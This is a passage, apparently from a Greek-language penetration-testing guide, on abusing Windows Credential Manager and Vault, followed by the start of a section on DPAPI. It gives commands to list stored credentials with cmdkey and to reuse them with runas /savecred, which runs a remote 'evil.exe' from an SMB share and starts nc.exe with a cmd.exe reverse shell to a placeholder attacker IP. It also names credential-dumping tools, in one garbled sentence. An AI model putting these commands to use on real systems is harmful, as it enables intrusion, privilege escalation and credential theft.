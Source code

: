 Από το [https://www.neowin.net/news/windows-7-exploring-credential-manager-and-windows-vault](https://www.neowin.net/news/windows-7-exploring-credential-manager-and-windows-vault)\
Το Θησαυροφυλάκιο των Windows αποθηκεύει τα διαπιστευτήρια χρήστη για διακομιστές, ιστότοπους και άλλα προγράμματα που το **Windows** μπορεί να συνδεθεί αυτόματα με τους χρήστες. Αρχικά, αυτό μπορεί να φαίνεται ότι οι χρήστες μπορούν να αποθηκεύσουν τα διαπιστευτήρια τους για το Facebook, το Twitter, το Gmail κ.λπ., ώστε να συνδέονται αυτόματα μέσω των προγραμμάτων περιήγησης. Αλλά δεν είναι έτσι.

Το Θησαυροφυλάκιο των Windows αποθηκεύει διαπιστευτήρια που το Windows μπορεί να συνδεθεί αυτόματα με τους χρήστες, πράγμα που σημαίνει ότι οποιαδήποτε **εφαρμογή των Windows που χρειάζεται διαπιστευτήρια για πρόσβαση σε ένα πόρο** (διακομιστή ή ιστότοπο) **μπορεί να χρησιμοποιήσει αυτόν τον Διαχειριστή Διαπιστευτηρίων** και το Θησαυροφυλάκιο των Windows και να χρησιμοποιήσει τα παρεχόμενα διαπιστευτήρια αντί να ζητά από τους χρήστες να εισάγουν το όνομα χρήστη και τον κωδικό πρόσβασης κάθε φορά.

Εκτός αν οι εφαρμογές αλληλεπιδρούν με τον Διαχειριστή Διαπιστευτηρίων, δεν νομίζω ότι είναι δυνατόν να χρησιμοποιήσουν τα διαπιστευτήρια για έναν συγκεκριμένο πόρο. Έτσι, αν η εφαρμογή σας θέλει να χρησιμοποιήσει το θησαυροφυλάκιο, θα πρέπει κάπως να **επικοινωνήσει με τον διαχειριστή διαπιστευτηρίων και να ζητήσει τα διαπιστευτήρια για αυτόν τον πόρο** από το προεπιλεγμένο αποθηκευτικό θησαυροφυλάκιο.

Χρησιμοποιήστε την εντολή `cmdkey` για να εμφανίσετε τα αποθηκευμένα διαπιστευτήρια στη μηχανή.
```bash
cmdkey /list
Currently stored credentials:
Target: Domain:interactive=WORKGROUP\Administrator
Type: Domain Password
User: WORKGROUP\Administrator
```
Στη συνέχεια, μπορείτε να χρησιμοποιήσετε την εντολή `runas` με τις επιλογές `/savecred` για να χρησιμοποιήσετε τα αποθηκευμένα διαπιστευτήρια. Το παρακάτω παράδειγμα καλεί ένα απομακρυσμένο δυαδικό αρχείο μέσω ενός κοινόχρηστου SMB.
```bash
runas /savecred /user:WORKGROUP\Administrator "\\10.XXX.XXX.XXX\SHARE\evil.exe"
```
Χρησιμοποιώντας την εντολή `runas` με ένα συγκεκριμένο σύνολο διαπιστευτηρίων.
```bash
C:\Windows\System32\runas.exe /env /noprofile /user:<username> <password> "c:\users\Public\nc.exe -nc <attacker-ip> 4444 -e cmd.exe"
```
Σημείωση ότι το mimikatz, lazagne, [credentialfileview](https://www.nirsoft.net/utils/credentials\_file\_view.html), [VaultPasswordView](https://www.nirsoft.net/utils/vault\_password\_view.html), ή από το [Empire Powershells module](https://github.com/EmpireProject/Empire/blob/master/data/module\_source/credentials/dumpCredStore.ps1).

### DPAPI

Το **Data Protection API (DPAPI)** παρέχει μια μέθοδο για τη συμμετρική κρυπτογράφηση δεδομένων, κυρίως χρησιμοποιούμενη στο λειτουργικό σύστημα Windows για τη συμμετρική κρυπτογράφηση ασύμμετρων ιδιωτικών κλειδιών. Αυτή η κρυπτογράφηση εκμεταλλεύεται ένα μυστικό χρήστη ή συστήματος για να συνεισφέρει σημαντικά στην εντροπία.

Το **DPAPI επιτρέπει την κρυπτογράφηση των κλειδιών μέσω ενός συμμετρικού κλειδιού που προέρχεται από τα μυστικά σύνδεσης του χρήστη**. Σε περιπτώσεις που αφορούν την κρυπτογράφηση του συστήματος, χρησιμοποιεί τα μυστικά ελέγχου τομέα του συστήματος.
